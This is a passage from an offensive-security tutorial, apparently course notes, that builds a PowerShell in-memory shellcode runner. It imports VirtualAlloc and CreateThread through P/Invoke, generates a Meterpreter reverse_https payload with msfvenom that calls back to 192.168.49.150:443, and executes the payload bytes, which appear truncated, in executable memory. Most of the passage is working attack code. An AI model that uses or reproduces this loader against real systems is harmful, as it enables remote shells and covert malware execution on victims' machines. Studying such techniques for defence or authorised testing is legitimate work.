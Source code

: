 ## Building our Shellcode

We can now start building our shellcode same as before in the section [Creating Our Shellcode](Creating%20Our%20Shellcode.md), we use 3 Win32 APIs that are:
- VirtualAlloc
- RtlMoveMemory(In powershell we'll use copy method in _System.Runtime.InteropServices.Marshal_ namespace)
- CreateThread

First off, we use pinvoke to translate the arguments of VirtualAlloc and CreatThread

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
```

Next, we build our shellcode:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f ps1 -o memory_shellcode_powershell.ps1
```

We can now add our shell code to a variable called $buf.
Create another variable called $size that is the size of our $buf variable
And finally, call our functions.
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
The arguments have already been explained in the [Creating Our Shellcode](Creating%20Our%20Shellcode.md) section.


